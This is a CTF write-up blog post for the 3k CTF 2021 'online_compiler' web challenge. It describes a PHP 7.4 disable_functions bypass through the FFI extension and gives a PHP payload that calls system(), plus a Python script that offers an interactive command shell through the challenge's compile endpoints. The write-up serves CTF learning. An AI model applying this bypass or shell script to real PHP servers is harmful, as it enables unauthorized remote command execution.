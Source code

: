 ```yaml
---
layout: post
date: 2021-05-17 00:00:13
title: "3k CTF 2021 Write Up"
categories: CTF
tags: [RCE, PHP]
author:
  - Jeongwon Jo

---
```

## (Web) online_compiler [425 pts]

> online_compiler challenge is bypass the disable_functions and get the flag.

First at challenge, Given the `back-end` code and `php.ini` file. When execute the php code at `back-end` you just need to checked the execute based on `php.ini` file. If u check the `php.ini` file, you will see many functions are disabled based on `disable_functions`. Deservedly, Was disabled function that shell command can be execute.

![](https://github.com/wjddnjs33/image/blob/main/3kctf%202021/1.png?raw=true)

But, Because `phpinfo()` is not disabled, I can check the `PHP Version` as above and can know using the `7.4.X` version in server. So, I did a search for vulnerabilities that occur in that version.

![](https://github.com/wjddnjs33/image/blob/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-16%20%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE%207.00.45.png?raw=true)
![](https://github.com/wjddnjs33/image/blob/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-17%20%E1%84%8B%E1%85%A9%E1%84%8C%E1%85%A5%E1%86%AB%202.43.32.png?raw=true)

I found content as above while gooling. I did a gooling keyword is `php 7.4 disable_functions bypass`. As above content is one among several bypass list. So, I checked `FFI` in `phpinfo()` and it was enabled.

![](https://github.com/wjddnjs33/image/blob/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-17%20%E1%84%8B%E1%85%A9%E1%84%8C%E1%85%A5%E1%86%AB%202.31.49.png?raw=true)

I did say without thinking `"This seem the most possible"` to `jingyu` bro on may 7 pm 7 hour. `Fucking`, After that, I did googling for another 2 hour.

![](https://github.com/wjddnjs33/image/blob/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-17%20%E1%84%8B%E1%85%A9%E1%84%8C%E1%85%A5%E1%86%AB%202.30.48.png?raw=true)

First, I first looked at `FFI` and it stands for `Foreign function interface`, which is an external function interface, but I didn't know how to use it. Then I found a strange article, and I could see the `cdef()` method used in the `FFI` class. It can be seen that an object is created by inserting a C language function prototype as the argument value of `cdef()`, and an external function is executed by referring to the function prototype created from the object.

![](https://github.com/wjddnjs33/image/blob/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-17%20%E1%84%8B%E1%85%A9%E1%84%8C%E1%85%A5%E1%86%AB%202.39.19.png?raw=true)

The prototype of the C Language system() function was as above. It seems like it was because I didn't do it as a pointer variable when I just did `const char command'.

```php
<?php 
  $ffi=FFI::cdef("int system(const char *command);");
  $ffi->system('ls');
?>
```
So, as a result, the payload was written as above. At first, like the picture above, the library file was also passed as a parameter, but it didn't work well when passed. Probably because there is no file in the same path, it seems like that, but even without it, there was no problem.

![](https://github.com/wjddnjs33/image/blob/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-17%20%E1%84%8B%E1%85%A9%E1%84%8C%E1%85%A5%E1%86%AB%202.50.22.png?raw=true)

When I wrote the code in Python and checked it, the `El_FlAAG___FilEE` file existed in the upper directory. So when I read the file, a flag came out. In the end, it was correct that I did say to `jingyu` bro on 7 pm earlier. zz

```python
import requests
from pwn import *

url = 'http://onlinecompiler.2021.3k.ctf.to:5000/'
path = ['save', 'compile']

while(1):
    command = raw_input("pocas@py : ")
    c_type, code = 'php', '<?php $ffi=FFI::cdef("int system(const char *command);");$ffi->system(\'{}\');?>'.format(command)
    body1 = {'c_type':c_type, 'code':code}

    # save
    filename = requests.post(url + path[0], data=body1).text
    log.info("Exploitation")
    log.info("filename : " + filename)

    # compile
    body2 = {'c_type':c_type, 'filename':filename}
    result = requests.post(url + path[1], data=body2).text.replace('\n', ' ')
    log.info("result : " + result)
```

> FLAG : 3k{JuSt_A_WaRmUp_O.o}

---
